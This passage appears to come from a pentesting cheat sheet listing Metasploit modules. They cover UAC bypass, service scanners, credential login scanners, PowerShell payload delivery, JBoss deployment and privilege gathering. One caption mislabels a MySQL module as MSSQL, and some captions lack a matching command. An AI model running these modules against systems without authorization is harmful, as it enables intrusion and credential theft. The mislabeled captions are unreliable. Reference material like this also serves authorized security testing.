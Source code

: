 - Meterpreter delete port forward

```bash
use exploit/windows/local/bypassuac
```

- Bypass UAC on Windows 7 + Set target + arch, x86/64

```bash
use auxiliary/scanner/http/dir_scanner
```

- Metasploit HTTP directory scanner

```bash
use auxiliary/scanner/http/jboss_vulnscan
```

- Metasploit JBOSS vulnerability scanner

```bash
use auxiliary/scanner/mssql/mssql_login
```

- Metasploit MSSQL Credential Scanner

```bash
use auxiliary/scanner/mysql/mysql_version
```

- Metasploit MSSQL Version Scanner

```bash
use auxiliary/scanner/oracle/oracle_login
```

- Metasploit Oracle Login Module

```bash
use exploit/multi/script/web_delivery
```

- Metasploit powershell payload delivery module

```bash
post/windows/manage/powershell/exec_powershell
```

- Metasploit upload and run powershell script through a session

```bash
use exploit/multi/http/jboss_maindeployer
```

- Metasploit JBOSS deploy

```bash
use exploit/windows/mssql/mssql_payload
```

- Metasploit MSSQL payload

```bash
run post/windows/gather/win_privs
```
